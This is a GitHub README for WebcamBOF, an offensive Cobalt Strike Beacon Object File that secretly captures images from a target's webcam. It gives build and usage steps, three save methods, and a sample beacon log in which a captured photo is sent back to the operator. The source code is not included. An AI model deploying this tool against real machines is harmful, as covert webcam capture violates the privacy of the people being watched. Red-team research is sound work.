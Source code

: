 # WebcamBOF

Webcam capture capability for Cobalt Strike, implemented as a Beacon Object File (BOF)

## Self Compilation
1. git clone the repo
2. run `make`

## Save methods:  
0. drop file to disk
1. download file over beacon (Cobalt Strike only)
2. download file over beacon as a screenshot (Cobalt Strike only)

## Usage
1. import the webcamBOF.cna script into Cobalt Strike
2. use the command webcam_bof {filename} {save method 0/1/2}
  
```
beacon> webcam_bof sad.jpeg 2
[*] Running Webcam BOF by (@codex_tf2)
[+] host called home, sent: 35817 bytes
[+] received output:

[*] Initializing webcam
[+] received output:

[*] Device 0: HP 320 FHD Webcam
[+] received output:

[*] Capturing image data
[+] received output:
[*] Downloading JPEG over beacon as a screenshot
[*] received screenshot of Webcam from Admin (328kb)
```


## Notes
I'm gonna be honest, the code quality of this is pretty low. There is some hacky shit going on to prevent generation of COMDAT sections during compilation (the mfapi.h headers produced over 170 of them) and I did some absolutely illegal stuff with the function pointers in one of the functions becuase for some reason the addresses would get truncated ONLY when run in Beacon. It would work perfectly fine in COFFLoader. No idea why.

But it works.

## Why did I make this?
Cobalt Strike did not originally have a built in webcam capability, nor did open source alternatives exist to my knowledge. And it was a fun (not) idea.

## Credits
- Webcam code from https://github.com/OV2/WebcamImage
- Save BMP to file from https://stackoverflow.com/a/60667564
- in memory download from https://github.com/anthemtotheego/CredBandit
- bitmap to jpeg from https://github.com/WKL-Sec/HiddenDesktop

## Disclaimer
usual disclaimer here, I am not responsible for any crimes against humanity you may commit or nuclear war you may cause using this piece of poorly written code.
